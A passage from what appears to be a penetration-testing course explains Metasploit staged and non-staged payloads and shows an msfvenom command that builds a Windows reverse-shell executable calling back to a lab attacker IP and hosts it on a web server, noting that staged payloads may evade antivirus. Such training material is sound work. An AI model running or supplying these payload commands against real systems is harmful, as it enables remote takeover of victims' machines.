 Although sophisticated attackers will leverage a C2 infrastructure in the real world, in this module we will simply communicate directly with the target.

The Metasploit framework simplifies this process.

### 3.1.1. Staged vs Non-staged Payloads

Metasploit boasts an impressive library of payloads that can be formatted in many different ways. The framework includes both _staged_ and _non-staged_ payloads.

For example, _windows/shell\_reverse\_tcp_ is a simple _non-staged_ reverse TCP shell payload. It contains all the code needed to open up a reverse command shell to an attacker's machine. The payload itself is actually a number of assembly instructions, which when executed, call a number of Windows APIs that connect to the attacker's C2 and exposes a _cmd.exe_ command prompt.

Staged payloads, such as windows/shell/reverse\_tcp, contain a minimal amount of code that performs a callback, then retrieves any remaining code and executes it in the target's memory. This slimmed-down payload does not take up as much memory as a non-staged payload, and may evade anti-virus programs.

Note the difference in the delimiters used in the names of these payloads. Non-staged payloads use a _\__ and staged payloads use _/_ respectively, as illustrated below. The payload's description also indicates whether it is staged or non-staged.

```
windows/x64/meterpreter_reverse_https    Connect back to attacker and spawn a Meterpreter shell
windows/x64/meterpreter/reverse_https    Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged x64).
```

> Listing 1 - Non-staged vs staged payload

### 3.1.2. Building Our Droppers

Once we choose a payload, we can build it using msfvenom.[1](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_92-1) For example, let's create a regular executable with a non-staged payload. First, we will set the payload with -p, and the attacking IP address and port with LHOST and LPORT. We'll set the payload format to executable with -f and use -o to save the payload to the root of our Apache web server. This construction is identical for staged and non-staged payloads.

```
kali@kali:~$ sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=444 -f exe -o /var/www/html/shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: /var/www/html/shell.exe

kali@kali:~$ sudo service apache2 start
```

> Listing 2 - Generate Non-staged Metasploit reverse TCP shell
